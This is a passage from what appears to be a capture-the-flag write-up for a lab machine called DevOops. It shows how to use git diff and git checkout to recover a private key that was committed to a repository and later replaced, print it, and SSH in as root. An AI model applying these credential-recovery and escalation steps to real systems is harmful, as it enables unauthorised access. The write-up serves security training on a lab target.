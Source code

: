 It seems like he accidentally uploaded another private key. Let’s use git diff to see what changed in the proper key key commit:

```bash
cd /home/roosa/work/blogfeed/

git diff d387abf63e05c9628a59195cec9311751bdb283f 
```

![image.png]({{ site.baseurl }}/assets/devoops/image%205.png)

We can use the following command to restore the previous version of the private key:

```bash
md5sum resources/integration/authcredentials.key

f57f7e28835e631c37ad0d090ef3b6fd  resources/integration/authcredentials.key

git checkout d387abf -- resources/integration/authcredentials.key

md5sum resources/integration/authcredentials.key

d880df0f57e4143a0fcb46fdd76e270b  resources/integration/authcredentials.key

```

We can see from the md5sum, the key has changed. Let’s now transfer it back to our host and attempt to ssh in as root:

```bash
cat resources/integration/authcredentials.key
```

Now let’s connect as root:

```bash
chmod 600 priv.key

ssh -i priv.key root@10.10.10.91 
```

We now have root.

![image.png]({{ site.baseurl }}/assets/devoops/image%206.png)